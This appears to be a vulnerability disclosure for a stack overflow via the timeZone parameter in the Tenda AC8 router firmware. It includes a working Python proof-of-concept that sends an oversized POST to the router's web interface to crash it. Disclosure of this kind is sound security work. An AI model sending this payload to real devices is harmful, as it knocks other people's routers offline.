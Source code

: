 # Tenda router sub_44E704 function stack overflow vulnerability

> vendor:Tenda
>
> product:AC8
>
> version:v4.0 v16.03.34.09
>
> type:Stack Overflow

## Vulnerability Description

Tenda AC8 v4.0 v16.03.34.09 were discovered to contain a stack overflow via the timeZone parameter in the sub_44E704 function.

## Vulnerability Details

In this function, the websGetVar function obtains the timeZone variable from the front end and assigns it to v5. It is passed to the dangerous function sscanf for use without length processing. This may cause a stack buffer overflow. By obtaining the Post request of the page, the attacker can pass Carefully constructed overflow data causes denial of service attacks(Dos).

<img width="572" alt="image" src="https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/e7e8d9a6-f80f-498b-b75e-22f02c841f1f">


## POC

    import socket
    import os
    from pwn import *

    li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
    ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    ip = '192.168.244.130'
    port = 80

    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    li('[+] connecting')
    r.connect((ip, port))
    li('[+] connect finish')

    rn = b'\r\n'

    p1 = b'A' * 0x500

    p2 = b'timeZone=' + p1

    p3 = b"POST /goform/fast_setting_wifi_set" + b" HTTP/1.1" + rn
    p3 += b"Host: 192.168.244.130" + rn
    p3 += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36" + rn
    p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
    p3 += b"Accept-Language: gzip, deflate" + rn
    p3 += b"Accept-Encoding: zh-CN,zh;q=0.9" + rn
    p3 += b"Cookie: password=cjq1qw" + rn
    p3 += b"Connection: close" + rn
    p3 += b"Upgrade-Insecure-Requests: 1" + rn
    p3 += (b"Content-Length: %d" % len(p2)) +rn
    p3 += b'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'+rn
    p3 += rn
    p3 += p2

    li('[+] sending payload')
    r.send(p3)

    response = r.recv(4096)
    response = response.decode()
    li(response)


   
